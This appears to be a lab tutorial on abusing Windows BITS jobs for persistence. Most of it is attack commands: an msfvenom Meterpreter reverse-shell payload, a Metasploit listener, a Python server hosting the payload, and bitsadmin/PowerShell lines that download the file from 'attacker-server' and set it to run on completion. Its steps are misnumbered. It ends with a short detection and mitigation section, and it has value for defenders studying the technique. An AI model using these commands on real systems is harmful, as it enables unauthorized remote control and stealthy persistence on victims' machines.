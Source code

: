 # Exploiting BITS Jobs for Persistence

## 1. Introduction

Background Intelligent Transfer Service (BITS) is a Windows service designed for low-bandwidth, asynchronous file transfers. It is commonly used by Windows Update, messaging applications, and other background services that require efficient file transfer without disrupting network performance. However, adversaries can abuse BITS jobs for malicious purposes, including persistent code execution, downloading and executing payloads, and exfiltrating data.

---

## 2. Understanding BITS Jobs and Why They Are Exploitable

BITS operates by creating and managing jobs that handle file transfers. These jobs can be configured to:
- Download and execute files
- Run commands upon completion or failure
- Store job configurations in a database, avoiding registry modifications
- Persist across reboots with a default maximum lifetime of 90 days (extendable)

The BITS interface can be accessed via:
- PowerShell (`Start-BitsTransfer`, `Get-BitsTransfer`)
- BITSAdmin tool (`bitsadmin /transfer`)

Since BITS jobs are often allowed by host firewalls and do not create obvious new files, they provide a stealthy mechanism for attackers to execute malicious code and maintain persistence on a target system.

---

## 3. Attack Scenario: Persistence via BITS Jobs

### 3.1. Lab Setup

This attack is demonstrated in a controlled lab environment using VMware Workstation. The setup consists of:
- **Attacker:** Kali Linux : 192.168.1.131 (running Metasploit Framework)
- **Victim:** Windows 10: (BITS service enabled)
- **Network Configuration:** Host-only or bridged network mode to allow direct communication

### 3.2. Attack Execution

#### Step 1: Using Metasploit to create payload
On Kali Linux, open a terminal and generate a malicious executable:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP_KALI> LPORT=4444 -f exe > /tmp/payload.exe
```
Now, set up a listener in Metasploit:
```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.131
set LPORT 4444
exploit
```
This will start a reverse shell listener waiting for the victim to execute the malicious file.
#### Step 3: Send Payload through Python HTTP Server
```bash
cd /tmp
python3 -m http.server 8080
```
#### Step 2: Creating a Malicious BITS Job

On the compromised Windows machine, the attacker executes PowerShell commands to create a persistent BITS job:
```powershell
$job = Start-BitsTransfer -Source "http://attacker-server/payload.exe" -Destination "C:\Users\Public\payload.exe"
bitsadmin /create /download MaliciousJob
bitsadmin /addfile MaliciousJob "http://attacker-server/payload.exe" "C:\Users\Public\payload.exe"
bitsadmin /setnotifycmdline MaliciousJob "C:\Users\Public\payload.exe" ""
bitsadmin /resume MaliciousJob
```
This command sequence:
- Downloads a payload from the attacker's server
- Saves it to a writable directory (`C:\Users\Public\`)
- Configures the job to execute the payload once the transfer is complete
- Resumes the job to trigger execution

#### Step 3: Achieving Persistence

Since BITS jobs persist in the system’s job queue, they remain active even after reboots. To confirm persistence, the attacker can run:
```powershell
Get-BitsTransfer | Format-Table -AutoSize
```
If the system is restarted, the job will still exist, allowing the payload to be re-executed.

---

## 4. Setting Up a Listener on Kali Linux

To capture the reverse shell, the attacker sets up a Metasploit listener:
```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <attacker-IP>
set LPORT 4444
exploit
```
When the victim executes the payload, a Meterpreter session is established, giving the attacker control over the compromised system.

---

## 5. Detecting and Mitigating BITS Job Abuse

### 5.1. Detection

Administrators can monitor for suspicious BITS jobs by running:
```powershell
Get-BitsTransfer -AllUsers | Select-Object -Property DisplayName, JobState, Owner, TransferType, NotifyCmdLine
```
Additionally, security logs and endpoint detection tools can help identify unexpected BITS activity.

### 5.2. Mitigation

To remove suspicious BITS jobs, execute:
```powershell
Get-BitsTransfer | Remove-BitsTransfer
```
To further secure the system:
- Restrict BITS job creation to trusted applications using Group Policy
- Monitor and log BITS activity for anomalous behavior
- Use application whitelisting to prevent unauthorized execution

---

## 6. Conclusion

BITS Job Persistence is a stealthy technique that attackers can use to maintain access on a Windows system. By leveraging the native BITS service, adversaries can execute payloads, evade detection, and maintain persistence without modifying the registry or creating new scheduled tasks. Understanding this technique is crucial for defenders to detect and mitigate such attacks effectively.
